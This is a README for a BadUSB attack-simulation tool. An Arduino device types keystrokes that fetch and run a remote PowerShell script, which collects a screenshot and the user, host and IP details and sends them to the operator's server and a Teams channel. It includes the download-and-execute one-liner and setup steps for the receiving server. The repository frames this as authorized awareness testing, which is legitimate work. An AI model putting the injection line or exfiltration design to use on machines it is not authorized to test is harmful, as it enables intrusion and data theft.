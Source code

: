 # Rubber Ducky-like Attack Simulation Test/Tool

This tool allows you to capture a screenshot, gather system information, and send it to a Microsoft Teams channel using a webhook. It consists of two parts: an Arduino Ducky Script and a PowerShell script.

> :warning: **Disclaimer**
    This tool is intended for educational and testing purposes only. It is designed to simulate a USB attack for security engineering and awareness training. Use responsibly and only on systems you are authorized to test.

## Materials

- [HiLetgo BadUsb Beetle Bad USB Microcontroller ATMEGA32U4](https://www.amazon.com/gp/product/B07W5K9YHP/ref=ppx_yo_dt_b_asin_title_o01_s00?ie=UTF8&psc=1) (Amazon)

## Software Used

- [Arduino IDE](https://www.arduino.cc/en/guide/linux)
- [Ducky Script to Arduino Converter](https://elrock.gitlab.io/ducky2arduino/)


## Prerequisites

- An Arduino device with an ATMEGA32U4 Microcontroller.
- An internet-connected computer running Windows with PowerShell.
- Access to a Microsoft Teams channel with a configured incoming webhook.
- A web server where you can host the PowerShell script.
  
## Installation

#### 1. Install Python and pip:

```bash
sudo apt update
sudo apt install python3
sudo apt install python3-pip
```
#### 2. Clone or download this project to your computer.
```bash
git clone https://github.com/remoteicu/DuckDuino.git
```

#### 3. Open a terminal and navigate to the project directory.
##### Directory Structure
```bash
- app.py                 # Python script to start the web server that listens for a request
- uploads/               # Directory for uploaded files and the PowerShell script
    - run.ps1
- requirements.txt       # Python package dependencies
```
#### 4. Create a virtual environment (optional but recommended):
```bash
python -m venv venv
```
#### 5. Activate the virtual environment:
On macOS and Linux:
```bash
source venv/bin/activate
```
On Windows (PowerShell):
```powershell
.\venv\Scripts\Activate
```
#### 6. Install the required Python packages:

```bash
pip install -r requirements.txt
```
## Configuration

### Arduino Script

1. Copy the provided [Arduino Script](duino.ino) to your Arduino device using Arduino IDE.
2. Modify the delays and keypresses in the Script as needed for your setup.
> **_NOTE:_**  Make sure to select `Arduino Leonardo` under tools > board > boards manager, as well as select the correct COM Port.

### PowerShell Script
The script will:
   - Capture a screenshot of the target computer.
   - Gather system information (computer name, username, IP address).
   - Upload the screenshot and information to the web server.
   - Send a message with the screenshot link to the specified Microsoft Teams channel using the webhook.

> **_NOTE:_** Make sure to update the `$UploadUrl` and `$teamsWebhookUrl` variables in the PowerShell script to point to your server's upload endpoint and your teams webhook url.
  
## Usage
Run app.py:
```bash
python app.py
```
## Extra Options ( SSl Certificate, Start and Stop scripts )
1. Point your domain DNS to your remote server IP
2. Get an ssl certificate from letsencrypt by utalizing [certbot](https://certbot.eff.org/)
Install Certbot
```bash
sudo snap install --classic certbot
```
Prepare Certbot Command
```bash
sudo ln -s /snap/bin/certbot /usr/bin/certbot
```
Install the Cert
```bash
    sudo certbot certonly --standalone
```
3. Fill out the prompts with your domain information
4. Add the following to `app.py` and replace {{your-domain}} with your FQDN.
```python
from flask import Flask, request, jsonify, send_from_directory
import os
import json
import base64
from datetime import datetime
import pytz
from flask_sslify import SSLify

app = Flask(__name__, static_url_path='/uploads', static_folder='uploads')
sslify = SSLify(app)

# ... (Rest of your code remains the same)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=443, ssl_context=('/etc/letsencrypt/live/{{your-domain}}/fullchain.pem', '/etc/letsencrypt/live/{{your-domain}}/privkey.pem'))

```
5. Update your arduino script by replacing {{your-domain}} to use the FQDN of your server
```bash
# ...

Keyboard.print("$scriptUrl = 'https://{{your-domain}}/uploads/run.ps1'; Invoke-Expression -Command (Invoke-RestMethod -Uri $scriptUrl)");

# ... (Rest of your code remains the same)
```
7. Setup a Start and Stop shell script and put them in the root directory
Start.sh
```bash
#!/bin/bash

nohup python app.py > /dev/null 2>&1 &

echo "Flask app started with PID: $!"
```
Stop.sh
```bash
#!/bin/bash

pid=$(pgrep -f "python app.py")
if [ -n "$pid" ]; then
  echo "Stopping Flask app (PID: $pid)..."
  kill "$pid"
  echo "Flask app stopped."
else
  echo "Flask app is not running."
fi
```
8. Make the scripts executible
```bash
chmod +x Start.sh
chmod +x Stop.sh
```
9. Run the Start / or Stop
```bash
./Start.sh
```
```bash
./Stop.sh
```


## Troubleshooting

- If you encounter issues, ensure that your Arduino device is properly configured and connected.
- Check the PowerShell script for any errors and make sure it is hosted on a reachable server.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details.
